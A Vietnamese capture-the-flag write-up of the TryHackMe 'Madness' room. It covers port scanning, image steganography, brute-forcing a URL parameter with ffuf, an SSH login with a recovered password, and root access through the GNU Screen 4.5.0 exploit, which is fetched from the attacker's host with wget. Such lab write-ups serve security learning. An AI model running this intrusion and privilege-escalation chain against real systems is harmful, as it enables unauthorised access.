

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Madness](https://tryhackme.com/room/madness)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 acf9851052656e17f51c34e7d86467b1 (RSA)
|   256 dd8e5aecb195cddc4d01b3fe5f4e12c1 (ECDSA)
|_  256 e9ede3eb58773b005e3af524d858348e (ED25519)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2047/tcp filtered dls
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Truy cập vào web với port 80, đây chỉ là 1 trang mặc định của apache. Thử xem source code thì tôi tìm được 1 hint

```python
      <div class="page_header floating_element">
        
<!-- They will never find me-->
        <span class="floating_element">
          Apache2 Ubuntu Default Page
        </span>
```

Hẳn là bức ảnh này có gì đó đặc biệt nên mới phải bị giấu đi, lấy nó về để phân tích.

```python
┌──(neo㉿kali)-[~]
└─$ wget http://10.10.187.164/thm.jpg               
--2022-11-06 22:06:43--  http://10.10.187.164/thm.jpg
Connecting to 10.10.187.164:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22210 (22K) [image/jpeg]
Saving to: ‘thm.jpg’

thm.jpg                                         100%[====================================================================================================>]  21.69K  70.6KB/s    in 0.3s    

2022-11-06 22:06:44 (70.6 KB/s) - ‘thm.jpg’ saved [22210/22210]

┌──(neo㉿kali)-[~]
└─$ exiftool thm.jpg       
ExifTool Version Number         : 12.44
File Name                       : thm.jpg
Directory                       : .
File Size                       : 22 kB
File Modification Date/Time     : 2020:01:06 05:34:26-05:00
File Access Date/Time           : 2022:11:06 22:10:29-05:00
File Inode Change Date/Time     : 2022:11:06 22:10:29-05:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : PNG image did not start with IHDR
```

Có vẻ như ảnh đang bị sai định dạng nên không thể mở được - đuôi là jpg nhưng warning lại nói là png. Tôi sẽ dùng *hexed.it* để phân tích nó


Với 8 byte đầu này thì đúng là của file png nhưng theo như warning phía trên thì IHDR sẽ phải là jpg mới. Vậy nên tôi sẽ đổi 8 byte đầu thành signatures của jpg


Export ảnh này về, và bên trong nó là 1 path ẩn



Xem qua source của trang này tôi tìm thấy 1 hint nữa

```python
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>
```

Vậy là tôi có thể điền 1 số nào đó từ 0-99 vào phần *Secret Entered:*, nhưng lại không có phần input nào. Vậy nên tôi nghĩ rằng tôi có thể điền trên url. 


Việc đầu tiên tôi sẽ tạo wordlist số 0-99 với `crunch`, cách tạo wordlist với `crunch` thì nó ở [đây](https://www.securitynewspaper.com/2018/11/28/create-your-own-wordlist-with-crunch/)

```python
┌──(neo㉿kali)-[~]
└─$ crunch 2 2 0123456789 -o numbers.txt
```

Tiếp theo dùng `ffuf` để brute-force

```python
┌──(neo㉿kali)-[~]
└─$ ffuf -w numbers.txt -u http://10.10.187.164/th1s_1s_h1dd3n/?secret=FUZZ                                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.187.164/th1s_1s_h1dd3n/?secret=FUZZ
 :: Wordlist         : FUZZ: numbers.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

26                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 310ms]
32                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 309ms]
05                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 310ms]
06                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 311ms]
36                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 312ms]
...
```

Sau khi chạy hết, tôi để ý thấy có 1 path mà Size của nó cao hơn nhiều so với các số khác đó là 73 với Size: 445, nghĩa là ký tự của trang này nhiều hơn hẳn các trang khác (407 hoặc 408).


Tôi còn 1 phương pháp nữa chưa thử đó là dùng `steghide` với bức ảnh phía trên. Thử extract nó với pass vừa tìm được

```python
┌──(neo㉿kali)-[~]
└─$ steghide extract -sf thm.
Enter passphrase: 
wrote extracted data to "hidden.txt".

┌──(neo㉿kali)-[~]
└─$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Với hint là *Rotten* thì tôi sẽ thử decode username này với rot13 và nhận được username là *joker*.

Trong lời nhắn có nói tôi đã tìm được password, nhưng tôi có thấy password nào ở đây đâu nhỉ? Thêm nữa tôi không được brute-force với ssh nên dù có thử qua các pass có liên quan thì cũng không thể có kết quả

Đến đây thì tôi đành phải tham khảo giải thích của những người đã từng làm. Và hóa ra cả bức ảnh trong phần giới thiệu của room này cũng là 1 dữ kiện. Thật là không ngờ đến!!! 

Thực ra việc phải tham khảo giải thích của người khác đã làm giảm hứng thú của tôi với room này đi nhiều. Nhưng để hoàn thành nốt thì tôi sẽ coi đấy là 1 hint nữa. Tôi sẽ lấy nó về và lại extract với `steghide`

```python
┌──(neo㉿kali)-[~]
└─$ steghide extract -sf 5iW7kC8.jpg
Enter passphrase: 
wrote extracted data to "password.txt".
                                            
┌──(neo㉿kali)-[~]
└─$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP

```

Login ssh

```python
┌──(neo㉿kali)-[~]
└─$ ssh joker@10.10.24.75           
joker@10.10.24.75's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ id
uid=1000(joker) gid=1000(joker) groups=1000(joker)                                                                                                                                           
joker@ubuntu:~$ ls                                                                                                                                                                           
user.txt                                                                                                                                                                                     
joker@ubuntu:~$     
```

## Privilege escalation

`find / -type f -perm -u=s 2>/dev/null`

```python
joker@ubuntu:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign                                                                                                                                                                 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                                                  
/usr/lib/eject/dmcrypt-get-device                                                                                                                                                            
/usr/bin/vmware-user-suid-wrapper                                                                                                                                                            
/usr/bin/gpasswd                                                                                                                                                                             
/usr/bin/passwd                                                                                                                                                                              
/usr/bin/newgrp                                                                                                                                                                              
/usr/bin/chsh                                                                                                                                                                                
/usr/bin/chfn                                                                                                                                                                                
/usr/bin/sudo                                                                                                                                                                                
/bin/fusermount                                                                                                                                                                              
/bin/su                                                                                                                                                                                      
/bin/ping6                                                                                                                                                                                   
/bin/screen-4.5.0                                                                                                                                                                            
/bin/screen-4.5.0.old                                                                                                                                                                        
/bin/mount
/bin/ping
/bin/umount
```

Tìm exploit về screen-4.5.0 và tôi tìm được trên [exploit-db.com](https://www.exploit-db.com/exploits/41154) 

Xác định vị trí của exploit và tạo local http server tại đó 

```python
┌──(neo㉿kali)-[~]
└─$ searchsploit -p 41154    
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable
                                        
┌──(neo㉿kali)-[~]
└─$ cd /usr/share/exploitdb/exploits/linux/local/
                                           
┌──(neo㉿kali)-[/usr/…/exploitdb/exploits/linux/local]
└─$ python -m http.server 8000

```

Sau đó tải exploit lên machine

```python
joker@ubuntu:~$ wget http://10.6.0.191:8000/41154.sh
--2022-11-07 00:28:17--  http://10.6.0.191:8000/41154.sh
Connecting to 10.6.0.191:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: ‘41154.sh’

41154.sh                                        100%[====================================================================================================>]   1.12K  --.-KB/s    in 0.01s   

2022-11-07 00:28:18 (78.1 KB/s) - ‘41154.sh’ saved [1149/1149]

joker@ubuntu:~$ 
```

```python
joker@ubuntu:~$ chmod +x 41154.sh 
joker@ubuntu:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...                                                                                                                                             
[+] Triggering...                                                                                                                                                                            
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                                                                     
[+] done!                                                                                                                                                                                    
No Sockets found in /tmp/screens/S-joker.                                                                                                                                                    

# id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
# ls /root
root.txt
# 
```

